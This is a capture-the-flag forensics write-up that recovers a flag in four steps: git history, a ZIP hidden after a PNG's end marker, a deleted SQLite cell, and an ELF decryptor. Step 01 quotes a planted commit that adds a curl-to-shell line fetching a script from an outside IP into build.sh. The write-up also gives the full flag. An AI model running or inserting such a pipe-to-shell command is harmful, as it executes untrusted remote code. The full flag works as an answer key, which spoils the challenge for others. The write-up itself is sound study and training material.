



01Start point: the repo's reachable and unreachable history
- What I did: unzipped polyglot-requiem.zip (39,051 bytes, SHA-256 2a3aeda4...97813c9), which holds README_FOR_RESPONDERS.md, manifest.sha256 and the flight-telemetry-sdk git repo, then ran git log --all and git fsck --unreachable with hooks disabled.
- What I found: five reachable commits, all stamped 2026-10-15 11:53:46 +0100, plus one unreachable commit, c435f88 ("build: add telemetry opt-in check"), with its tree and a blob.
- What I found: its diff only adds curl -s http://198.51.100.9/telemetry-opt-in.sh | sh to build.sh. That is the "altered build history", a pipe-to-shell I only read and never ran or fetched.
- Thinking: the curl line is bait, but the commit itself is still evidence, so I noted its commit time (%ct 1792061626) in case a later step needed a time value.

02Pivot: a ZIP hiding behind the PNG's IEND
- What I found: assets/telemetry_icon.png is a tiny image (IHDR 13, tEXt 27, IDAT 18, IEND) but the file is 23,008 bytes. The tEXt chunk is Provenance = 0f18e37122ddbcca, and 22,894 bytes follow IEND.
- Thinking: an 18-byte IDAT cannot explain a 23 KB file, so the data after the end marker was the next lead.
- What I did: walked the chunks and cut out everything after IEND.
- What I found: the trailer starts with PK 03 04, so a ZIP is appended to the PNG. It holds telemetry_cache.db (SQLite, 8,192 bytes) and assetsignd (an ELF, 14,472 bytes).
- Result: a SQLite file, an ELF and a Provenance tag.
03Pivot: a deleted cell in the SQLite pages
- What I found: the live table build_secrets holds four obviously fake rows (aws_demo_key, grafana_token, npm_registry_token, pad_row_a).
- What I did: searched the raw page bytes for strings and found ci_provenance_seal, which is in no live row. It is a deleted cell whose bytes survived: record header 04 00 31 54 (NULL id, 18-byte text, 36-byte blob) and the blob eec4bf28579c1bc91a4aeb48b2d0bf862bf8fe0571cfbd4deda3bdef0d177e7c9aa4c401.
- Thinking: a name in the raw page but in no live row is a deleted record, and a 36-byte blob is exactly the length of a CSCTF{...} flag, so it looked like ciphertext.

04Flag: read assetsignd statically and decrypt
- What I did: disassembled assetsignd with objdump (usage: tag, epoch, infile, outfile). It computes key = SHA-256(reverse(tag bytes) || epoch as 8-byte little-endian) and out[i] = in[i] XOR key[i & 0x1f], so the 32-byte key repeats.
- Thinking: the program wants exactly the two values the earlier layers gave me, a tag (the PNG's Provenance) and an epoch (a git time). The epoch was the guess: I tried values near the commit time, and the exact commit timestamp produced readable text.
- What I found: tag 0f18e37122ddbcca with epoch 1792061626 decodes the first 32 bytes to CSCTF{p0lygl0t_r3qu13m_1d0a73980.
- Dead end: my first attempt only decoded 32 bytes because I applied a plain 32-byte keystream once. Reading the XOR loop again showed the & 0x1f wrap, which supplies the last 4 bytes: 738}.
- Result: CSCTF{p0lygl0t_r3qu13m_1d0a73980738}
